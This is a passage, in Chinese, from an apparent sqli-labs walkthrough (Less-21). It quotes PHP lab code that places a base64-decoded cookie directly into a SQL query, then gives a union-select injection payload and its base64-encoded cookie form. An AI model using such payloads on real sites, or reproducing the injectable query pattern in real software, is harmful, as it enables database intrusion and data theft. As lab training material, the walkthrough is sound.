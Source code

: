 此时 sql 语句拼接为

```
$sql="SELECT * FROM users WHERE username='-test' union select 1,database(),user(),4,5,6 #' LIMIT 0,1";
```

## Less-21

与上题源码大致一致，此时 COOKIE 是用 base64 解码的，COOKIE编码注入

```
$cookee = base64_decode($cookee);
			echo "<br></font>";
			$sql="SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1";
			$result=mysql_query($sql);
			if (!$result)
  				{
  				die('Issue with your mysql: ' . mysql_error());
  				}
			$row = mysql_fetch_array($result);
			if($row)
				{		
			  	echo 'Your Login name:'. $row['username'];
				echo 'Your Password:' .$row['password'];
				echo 'Your ID:' .$row['id'];
...................				
```

我们常规登录后，修改注入的 cookie 为 base64 编码后的，注意闭合 sql 语句时用的 ')

```
-test') union select 1,database(),user(),4,5,6 #
```

闭合 sql 语句为

```
$sql="SELECT * FROM users WHERE username=('-test') union select 1,database(),user(),4,5,6 #') LIMIT 0,1";
```

把 payload 用 base64 编码为

```
LXRlc3QnKSB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLHVzZXIoKSw0LDUsNiAj
```
